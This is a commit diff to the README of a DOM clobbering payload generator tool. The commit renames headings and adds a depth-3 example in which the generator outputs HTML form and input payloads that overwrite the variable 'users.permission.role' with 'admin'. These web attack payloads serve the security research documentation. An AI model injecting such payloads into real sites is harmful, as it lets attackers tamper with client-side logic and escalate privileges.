

Before and after one commit to xanhacks/DOM-Clobbering-Generator, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
add depth 3

````diff
--- a/README.md
+++ b/README.md
@@ -43,9 +43,9 @@ console.log(fm.action);   // http://localhost/login
 List of tags which supports the name attribute:
 - `embed`, `form`, `iframe`, `image`, `img`, `object`
 
-## Usage
+## Tool usage
 
-## Depth 2
+### Depth 2
 
 ```bash
 $ python3 generator.py video.lang 'Hello!'
@@ -72,7 +72,28 @@ chrome_required = True
 <a id="video"></a><a id="video" name="lang" href="a:Hello!"></a>
 ```
 
-## Depth 4
+### Depth 3
+
+```bash
+$ python3 generator.py users.permission.role 'admin'
+********************* INFO **********************
+ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
+variable_name = 'users.permission.role'
+variable_value = 'admin'
+depth = 3
+document_scope = False
+chrome_required = True
+******************** PAYLOAD #1 ********************
+<form id="users" name="permission" role="admin"></form>
+<form id="users">
+******************** PAYLOAD #2 ********************
+<form id="users" name="permission">
+    <input id="role" value="admin">
+</form>
+<form id="users">
+```
+
+### Depth 4
 
 ```bash
 $ python3 generator.py music.metadata.sound.max '100%'
````
